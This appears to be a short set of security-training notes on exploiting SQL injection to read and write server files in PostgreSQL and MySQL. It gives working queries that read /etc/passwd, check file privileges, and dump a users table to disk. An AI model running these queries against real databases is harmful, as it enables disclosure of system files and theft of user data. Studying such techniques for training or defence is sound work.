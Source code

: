```yaml
---
tags:
- sqlInjection
---
```


# SQL Injection. Reading and Writing Files

## Getting content of server file
### Postgres
#### Reading file

```sql
create table tmp(data text);
copy tmp from '/etc/passwd';
select * from tmp;
```
Note:  Database user must have access to create table

```sql
select pg_read_file('/etc/passwd') 
```
#### Writing file
```sql  
copy (select * from users) TO  '/tmp/users.txt';  
select pg_read_file('/tmp/users.txt');  
```

### Mysql
Get information about which files  user can read.
Check availability of `load_file` and `outfile` functions.
```mysql
SELECT @@GLOBAL.secure_file_priv
```

- secure_file_priv = NULL - function is not available  
- secure_file_priv = /var/lib/mysql-files/ - function is available  in this directory

#### Reading file
```mysql
SELECT LOAD_FILE('/var/lib/mysql-files/test.txt') 
```

#### Writing file

Write the table information to file
```mysql
SELECT * FROM users INTO OUTFILE '/var/lib/mysql-files/test.txt'
```

## References

1. web200.SQL Injection.Exploiting SQL Injection. Reading and Writing Files